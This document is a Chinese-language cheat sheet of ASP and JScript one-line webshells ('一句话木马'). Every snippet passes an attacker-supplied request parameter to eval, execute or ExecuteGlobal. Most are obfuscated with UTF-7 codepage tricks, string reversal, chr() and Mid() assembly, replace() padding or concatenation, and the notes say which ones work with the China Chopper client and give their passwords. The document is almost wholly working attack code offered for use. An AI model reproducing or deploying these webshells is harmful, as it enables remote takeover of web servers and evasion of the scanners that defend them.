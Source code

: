 

## ASP一句话木马


#### 标准一句话

```
<%eval request("sb")%>
<%execute request("sb")%>
<%Eval(Request(chr(35)))%>   password:#
<%Eval(((Request(chr(35)))))%> 可以有多对括号
<%ExecuteGlobal request("sb")%>
<%eval request.form("#")%>
<%eval request.item("#")%>
<%eval request("chopper")%>

<%execute request("1")%>


// 单独运行500错误，但是菜刀能连。
<%a=request("1")%><%execute a%>  

// 单独运行不报错，菜刀能连
<%a=request("1")%><%eval a%>

// 单独运行500错误，但是菜刀能连。
<%a=request("1")%><%executeglobal a%>
```


#### 利用utf-7编码

密码是#，解密只需要将+k-去掉即可，这里的k可以是任意字符，长度也是随意。

```
<%@codepage=65000%>
<%r+k-es+k-p+k-on+k-se.co+k-d+k-e+k-p+k-age=936:e+k-v+k-a+k-l r+k-e+k-q+k-u+k-e+k-s+k-t("#")%>
```

密码是：c

``` 
<%@codepage=65000%>
<%e+x-v+x-a+x-l(+x-r+x-e+x-q+x-u+x-e+x-s+x-t+x-(+x-+ACI-c+ACI)+x-)+x-%>  
```

解密后

```
<%@codepage=65000%>
<%response.codepage=936:eval request("#")%>
```

#### 字符串逆序


StrReverse Replace加密，解密后为：Execute eval request("cmd")

```
<%
Function decode(Code)
	decode=Replace(StrReverse(Code),"/*/","""") '函数名作为变量，表示要返回的数据。而且"""""，表示只有一个双引号（"""），只能用""""，其他都会报错。
End Function
Execute decode(")/*/dmc/*/(tseuqer lave")  'eval request(/*/cmd/*/)
%> A
```

ASP自带逆序函数

```
<%execute(strreverse(")""xx""(tseuqer lave"))%>
```

#### 利用chr ，request

```
<%eval (eval(chr(114)+chr(101)+chr(113)+chr(117)+chr(101)+chr(115)+chr(116))("1"))%>
```


#### 利用asp的&连接符

```
<% eval""&("e"&"v"&"a"&"l"&"("&"r"&"e"&"q"&"u"&"e"&"s"&"t"&"("&"0"&"-"&"2"&"-"&"5"&")"&")") %>
```

#### 拆分法

```
<% 
xx=request("xx") 
eval xx 
%> 
```

```
<% 
xx=request("xx") 
Rain=xx 
eval Rain 
%>  
```

```
<% 
xx=request("xx") 
Rain=xx 
bb=Rain
if 1=0 then
    response.write("123")
else 
    eval bb 
end if
%> 
```

#### 字符串替换(replace函数) 

```
<% 
xxx="e0x0e0c0ut0e(0req0ue0st(""x0x""))" 
xxx=replace(xxx,"0","") 
eval xxx 
%>
```


#### chr()连接字符串

```
<%eval(eval(chr(114)+chr(101)+chr(113)+chr(117)+chr(101)+chr(115)+chr(116))("sz"))%>
```

#### Mid()连接字符串

基本思路：乱序一个字符串然后反复Mid取字符构成一句话。 

```
<% 
Function d(s):d=Mid(love,s,1):End Function:love="(tqxuesrav l)"&"""":execute(d(6)&d(10)&d(9)&d(12)&d(11)&d(8)&d(6)&d(3)&d(5)&d(6)&d(7)&d(2)&d(1)&d(14)&d(4)&d(4)&d(14)&d(13)) 
%>
```

#### 字符连接成字符串 

```
<%eval("e"&"v"&"a"&"l"&"("&"r"&"e"&"q"&"u"&"e"&"s"&"t"&"("&"0″&"-"&"2″&"-"&"5″&")"&")")%>   密码-7  
```

#### Jscript

```
< %@ Page Language = Jscript %>
< %var/*-/*-*/P/*-/*-*/=/*-/*-*/"e"+"v"+/*-/*-*/
"a"+"l"+"("+"R"+"e"+/*-/*-*/"q"+"u"+"e"/*-/*-*/+"s"+"t"+
"[/*-/*-*/0/*-/*-*/-/*-/*-*/2/*-/*-*/-/*-/*-*/5/*-/*-*/]"+
","+"\""+"u"+"n"+"s"/*-/*-*/+"a"+"f"+"e"+"\""+")";eval
(/*-/*-*/P/*-/*-*/,/*-/*-*/"u"+"n"+"s"/*-/*-*/+"a"+"f"+"e"/*-/*-*/);%> 密码 -7
```

```
< %@ Page Language="Jscript"%>< %eval(Request.Item["shezhang"],"unsafe");%>
```

